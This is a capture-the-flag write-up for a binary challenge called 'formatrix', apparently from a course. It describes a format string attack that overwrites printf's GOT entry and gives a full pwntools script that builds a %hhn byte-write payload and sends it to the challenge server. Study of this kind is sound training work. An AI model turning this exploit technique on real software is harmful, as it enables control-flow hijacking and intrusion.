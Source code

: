 ```
```

## formatrix

---

FLAG{REDACTED}

---

_You can tell I did this one after Friday's tutorial_

Having opened the door to format strings, we now face the GOTacle. Can we overcome this!? _(I haven't watched the movie either)_

1. Pretty standard format string exploit: put an address onto the stack, write to it. Change the code flow.
2. Only difference? The address to overwrite is of the printf function which is dynamically decided on from the got. With no RELRO, this is tRiViaL.

How does this code work?

1. Graduating from the one liner almost unreadable code, I wrote up a function to write the address of the win function into the GOT.
2. Both the addresses of the GOT and win function can be obtained from the disassembly, since PIE is not enabled.

```
#!/usr/bin/python3

from pwn import *

#p = process('./formatrix')
p = remote('plsdonthaq.me', 4003)

got = 0x8049c18
win = 0x8048536

def writeAddress(where, what):
	win = p32(what)
	payload = b''
	payload += p32(where)
	payload += p32(where + 1)
	payload += p32(where + 2)
	payload += p32(where + 3)

	for i in range(4):
		ind = 3 - i
		byte = win[ind]
		count = ((byte - 16) + 256) % 256
		payload += f'%{count}x'.encode()
		payload += f'%{ind + 3}$hhn'.encode()
		if (i != 3):
			payload += f'%{256 - count}x'.encode()

	return payload

p.sendlineafter('You say: ', writeAddress(got, win))

p.interactive()
```
